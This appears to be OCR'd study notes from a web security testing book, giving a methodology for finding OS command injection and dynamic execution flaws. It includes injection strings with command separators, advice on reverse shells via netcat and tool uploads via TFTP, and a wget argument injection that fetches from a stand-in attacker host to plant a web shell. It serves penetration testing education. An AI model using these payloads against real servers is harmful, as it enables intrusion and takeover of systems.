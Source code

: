 CHAPTER 10: ATTACKING BACK-END COMPONENTS:

## **Finding OS Command Injection Flaws**:
1. You can normally use the `ping` command as a means of triggering a time delay by causing the server to ping its loopbak interface for specific period. There are minor differences between how Windows and UNIX-based platforms handle command separators and the `ping` command. However, the following all-purpose test string should induce a 30-second time delay on either platform if no filtering is in place:
```
|| ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &
```
To maximize your chances of detecting a command injection flaw if the application is filtering certain command separators, you should also submit each of the following test strings to each targeted parameter in turn and monitor the time taken for the application to respond:
```
| ping -i 30 127.0.0.1 |
| ping -n 30 127.0.0.1 |
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
; ping 127.0.0.1 ;
%0a ping -i 30 127.0.0.1 %0a
` ping 127.0.0.1 `
```
2. If a time delay occurs, the application may be vulnerable to command injection. Repeat the test case several times to confirm that the delay was not the result of network latency or other anomalies. You can try changing the value of the -n or -i parameters and confirming that the delay experienced varies systematically with the value supplied.
3. Using whichever of the injection strings was found to be successful, try injecting a more interesting command (such as `ls` or `dir`). Determine whether you can retrieve the results of the command to your browser.
4. If you are unable to retrieve results directly, you have other options:
	- You can attempt to open an out-of-bound channel back to your computer. Try using TFTP to copy tools up to the server, using telnet or netcat to create a reverse shell back to your computer, and using the `mail` command to send command output via SMTP
	- You can redirect the results of your commands to a file within the web root, which you can then retrieve directly using your browser. For example:
	```
	dir > c:\inetpub\wwwroot\foo.txt
	```
5. When you have found a means of injecting commands and retrieving the results, you should determine your privilege level (by using `whoami` or directory). You may then seek to escalate privileges, gain backdoor access to sensitive application data, or attack other hosts reachable from the compromised server.
6. The `<` and `>` characters are used, respectively, to direct the contents of a file to the command's input and to direct the command's output to a file. If it is not possible to use the preceding techniques to inject an entirely separate command, you may still be able to read and write arbitrary file contents using the `<` and `>` characters.
7. Many operating system commands that applications invoke accept a number of command-line parameters, and you may be able to add further parameters simply by inserting a space followed by the relevant parameter. For example, a web-authoring application may contain a function in which the server retrieves a user-specifed URL and renders its contens in-browser for editing. If the application may contain a function in which the server retrieves a user-specifed URL and renders its contents in-browser for editing. If the application simply calls out to the `wget` program, you may be able to write aritrary file contents to the server's filesystem by appending th `-o` command-line parameter used by `wget`. For example:
```
url=http://wahh-attacker.com/%20-o%20c:\inetpub\wwwroot\scripts\cmdasp.asp
```
## **Finding Dynamic Execution Vulnerabilites**:
1. Any item of user-supplied data may be passed to a dynamic execution function. Some of the items most commonly used in this way are the names and values of cookie parameters and persistent data stored in user profiles as the result of previous actions.
2. Try submitting the following values in turn as each targeted parameter: